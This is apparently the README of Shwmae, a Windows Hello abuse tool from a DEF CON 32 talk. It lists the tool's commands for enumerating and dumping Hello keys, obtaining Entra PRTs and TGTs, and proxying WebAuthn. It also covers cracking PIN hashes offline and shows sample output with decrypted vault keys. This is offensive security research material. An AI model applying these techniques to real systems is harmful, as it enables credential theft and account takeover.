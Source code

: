 # Shwmae

Shwmae (shuh-my) is a Windows Hello abuse tool that was released during DEF CON 32 as part of the Abusing Windows Hello Without a Severed Hand talk.  The purpose of the tool is to abuse Windows Hello from a privileged user context.

```
Shwmae 
Copyright (C) 2024 Shwmae

  enum        (Default Verb) Enumerate Windows Hello protectors, keys and credentials

  sign        Sign data using a Windows Hello protected certificate

  prt         Obtain an Entra PRT and partial TGT usable with Rubeus

  webauthn    Create a webserver to proxy WebAuthn requests from an attacking host

  dump        Dump Windows Hello protected keys when backed by software

  help        Display more information on a specific command.

  version     Display version information.
```

The tool features several modes of operation.

## Enumeration

When no arguments are provided enumeration is the default mode, alternatively you can use the `enum` command.  Enumeration mode will enumerate all Windows Hello containers available, and recursively enumerate all Windows Hello enrolled keys and protectors within the container.  In instances where no TPM is present on the host, a hash is generated for the PIN protector than can be cracked offline using hashcat.  

The biometric protector will be decrypted automatically but the PIN and Recovery protectors can be decrypted using the `/pin` and `/token` arguments respectively.  Only a single protector needs to be decrypted from each container to allow abuse of the Windows Hello keys within that container.

### Example

```
Shwmae

[+] Decrypted SYSTEM vault policy 4bf4c442-9b8a-41a0-b380-dd4a704ddb28 key: 2f662c4708167c02732ae89cd4681557be8c4059b3eab1716bbf20ac5fd000fdd0c5038ce2fc4c89fd6627f45b8e613611e8282d8f38c08e828c023f6b8f060b
[+] Decrypted vault policy:
  Aes128: 3cb7dbc9f920a6df0aab211b67ef673d
  Aes256: 43642515f325f55c332d14e0295d3ad43dfdb05324fadb7bea687f1a9e0e6ecd

GINGE\mary.gruber (S-1-5-21-1003644063-402998240-3342588708-1111)

  Provider              : Microsoft Platform Crypto Provider
  Protected Recovery Key: eyJWZXJzaW9uIjoxLCJQcm90ZWN0ZW...
  Recovery Key          : Use /token argument to decrypt recovery key

  ** Protectors **

    Type           : Pin
    Pin Type       : Numeric
    Length         : 8
    Decrypted      : Supply /pin argument to attempt decryption

```